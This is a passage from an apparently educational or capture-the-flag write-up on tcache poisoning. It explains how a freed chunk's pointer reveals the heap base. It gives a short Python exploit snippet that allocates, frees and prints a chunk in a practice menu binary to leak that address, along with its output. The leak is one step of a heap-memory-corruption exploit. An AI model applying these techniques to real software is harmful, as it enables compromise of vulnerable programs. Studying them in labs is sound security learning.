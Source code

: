 <img src="/assets/images/tcache-poisoning/tcache1.png" style="width:100%; height:100%;" />

Address 0x555555559010 holds the value 0x1, meaning that there is 1 free chunk in the 0x50 tcache bin.<br>
Address 0x5555555590a8 holds the ptr to the user data of the chunk at the head of the 0x50 tcache bin.<br>

As you can see there is a lot of similarity between the ptr contained in the free chunk and the heap base addr. To make things clearer, the heap starts at 0x555555559000 <br>
So if we leak the ptr in the free chunk and left shift it by 12 bits we will have the same value as the heap base address. The following python code achieves this:
```
# allocate chunk0
p = b"A"*8
malloc(0, 0x40, p)

# free chunk0
free(0)

# leak heap base via chunk 0
heap_leak = puts(0)
heap_leak = heap_leak[:8]
heap_leak = u64(heap_leak.ljust(8,b"\x00"))
heap_base = heap_leak << 12
print("heap_base:",hex(heap_base))
```
This should give you the following output:
```
heap_base: 0x555555559000
[*] Switching to interactive mode
MENU:
1: Malloc
2: Free
3: Edit
4: Print
> $  
```
